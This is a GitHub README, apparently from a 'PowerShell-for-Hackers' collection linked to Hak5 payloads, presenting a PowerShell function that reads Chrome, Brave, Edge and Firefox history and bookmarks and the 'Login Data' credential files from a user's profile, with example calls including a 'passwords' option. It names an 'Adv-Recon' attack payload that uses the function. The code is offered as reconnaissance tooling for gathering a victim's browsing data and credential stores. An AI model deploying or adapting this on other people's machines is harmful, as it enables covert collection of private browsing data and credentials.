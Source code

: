 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#The-Function">The Function</a></li>
    <li><a href="#Examples">Examples</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# Get-BrowserData

<p align="center">
      <a href="https://youtu.be/2qkgQAwDZgk">
        <img src=https://i.ytimg.com/vi/2qkgQAwDZgk/maxresdefault.jpg width="300" alt="Python" />
      </a>
      <br>YouTube Tutorial	
</p>

## Description

This function can be used to retrieve the browsing history and bookmarks from edge, chrome, and firefox (no bookmarks from firefox currently)

## The Function

### [Get-BrowserData] 

In this function we will pass the browser name and data type (history/bookmarks) as parameter to retrieve the intended data

```
function Get-BrowserData {

    [CmdletBinding()]
    param (	
    [Parameter (Position=1,Mandatory = $True)]
    [string]$Browser,    
    [Parameter (Position=1,Mandatory = $True)]
    [string]$DataType 
    ) 

    $Regex = '(http|https)://([\w-]+\.)+[\w-]+(/[\w- ./?%&=]*)*?'

    if     ($Browser -eq 'chrome'  -and $DataType -eq 'history'   )  {$Path = "$Env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\History"}
    elseif ($Browser -eq 'chrome'  -and $DataType -eq 'bookmarks' )  {$Path = "$Env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Bookmarks"}
    elseif ($Browser -eq 'chrome'  -and $DataType -eq 'passwords' )  {$Path = "$Env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Login Data"}  
    elseif ($Browser -eq 'brave'   -and $DataType -eq 'history'   )  {$Path = "$Env:USERPROFILE\AppData\Local\BraveSoftware/Brave-Browser/User Data/Default/History"}
    elseif ($Browser -eq 'brave'   -and $DataType -eq 'bookmarks' )  {$Path = "$env:USERPROFILE/AppData/Local/BraveSoftware/Brave-Browser/User Data/Default/Bookmarks"}
    elseif ($Browser -eq 'brave'   -and $DataType -eq 'passwords' )  {$Path = "$env:USERPROFILE/AppData/Local/BraveSoftware/Brave-Browser/User Data/Default/Login Data"}
    elseif ($Browser -eq 'edge'    -and $DataType -eq 'history'   )  {$Path = "$Env:USERPROFILE\AppData\Local\Microsoft/Edge/User Data/Default/History"}
    elseif ($Browser -eq 'edge'    -and $DataType -eq 'bookmarks' )  {$Path = "$env:USERPROFILE/AppData/Local/Microsoft/Edge/User Data/Default/Bookmarks"}
    elseif ($Browser -eq 'firefox' -and $DataType -eq 'history'   )  {$Path = "$Env:USERPROFILE\AppData\Roaming\Mozilla\Firefox\Profiles\*.default-release\places.sqlite"}
    

    $Value = Get-Content -Path $Path | Select-String -AllMatches $regex |% {($_.Matches).Value} |Sort -Unique
    $Value | ForEach-Object {
        $Key = $_
        if ($Key -match $Search){
            New-Object -TypeName PSObject -Property @{
                User = $env:UserName
                Browser = $Browser
                DataType = $DataType
                Data = $_
            }
        }
    } 
}
```
SYNTAX:

```
Get-BrowserData -Browser "edge" -DataType "history"

Get-BrowserData -Browser "edge" -DataType "bookmarks"

Get-BrowserData -Browser "chrome" -DataType "history"

Get-BrowserData -Browser "chrome" -DataType "bookmarks"

Get-BrowserData -Browser "chrome" -DataType "passwords"

Get-BrowserData -Browser "brave" -DataType "history"

Get-BrowserData -Browser "brave" -DataType "bookmarks"

Get-BrowserData -Browser "brave" -DataType "passwords"

Get-BrowserData -Browser "firefox" -DataType "history"
```

<p align="right">(<a href="#top">back to top</a>)</p>


## Examples

Listed below are payloads that have used one of these functions:

[Adv-Recon](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-ADV-Recon)




<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<h2 align="center">📱 My Socials 📱</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://youtube.com/c/IamJakoby?sub_confirmation=1">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/youtube-svgrepo-com.svg width="48" height="48" alt="C#" />
      </a>
      <br>YouTube
    </td>
    <td align="center" width="96">
      <a href="https://twitter.com/I_Am_Jakoby">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/twitter.png width="48" height="48" alt="Python" />
      </a>
      <br>Twitter
    </td>
    <td align="center" width="96">
      <a href="https://www.instagram.com/i_am_jakoby/">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/insta.png width="48" height="48" alt="Golang" />
      </a>
      <br>Instagram
    </td>
    <td align="center" width="96">
      <a href="https://discord.gg/MYYER2ZcJF">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/discord-v2-svgrepo-com.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>Discord
    </td>
  </tr>
</table>
</div>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [UberGuidoZ](https://github.com/UberGuidoZ)

***

[HOME-PAGE](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers)

<p align="right">(<a href="#top">back to top</a>)</p>
